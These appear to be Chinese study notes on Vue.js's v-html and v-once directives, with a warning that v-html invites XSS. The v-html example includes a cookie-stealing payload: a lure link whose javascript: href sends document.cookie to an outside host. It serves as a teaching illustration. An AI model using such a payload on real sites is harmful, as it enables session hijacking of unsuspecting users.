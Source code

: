
### v-html指令

**1.作用：向指定节点中渲染包含html结构的内容。**



2.与插值语法的区别：

v-html会替换掉节点中所有的内容，{{xx}}则不会。

==v-html可以识别html结构。==



3.严重注意：v-html有安全性问题！！！！

在网站上动态渲染任意HTML是非常危险的，容易导致XSS攻击。

一定要在可信的内容上使用v-html，永不要用在用户提交的内容上！

```html
<!-- 准备好一个容器-->
<div id="root">
    <div>你好，{{name}}</div>
    <div v-html="str"></div>
    <div v-html="str2"></div>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            name:'张三',
            str:'<h3>你好啊！</h3>',
            str2:'<a href=javascript:location.href="http://www.baidu.com?"+document.cookie>兄弟我找到你想要的资源了，快来！</a>',
        }
    })
</script>
```



### v-once指令

- v-once所在节点在初次动态渲染后，就视为静态内容了。
- 以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。

```html
<!-- 准备好一个容器-->
<div id="root">
    <h2 v-once>初始化的n值是:{{ n }}</h2>
    <h2>当前的n值是:{{ n }}</h2>
    <button @click="n++">点我n+1</button>
</div>

<script type="text/javascript">
    Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

    new Vue({
        el:'#root',
        data:{
            n:1
        }
    })
</script>
```
